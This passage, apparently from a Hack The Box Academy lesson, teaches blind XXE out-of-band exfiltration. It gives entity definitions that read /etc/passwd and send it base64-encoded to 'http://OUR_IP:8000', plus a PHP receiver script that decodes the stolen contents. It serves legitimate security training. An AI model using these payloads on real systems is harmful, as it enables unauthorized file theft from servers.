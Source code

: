 This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.


# Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

---

## Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

Code: xml

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

Code: php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
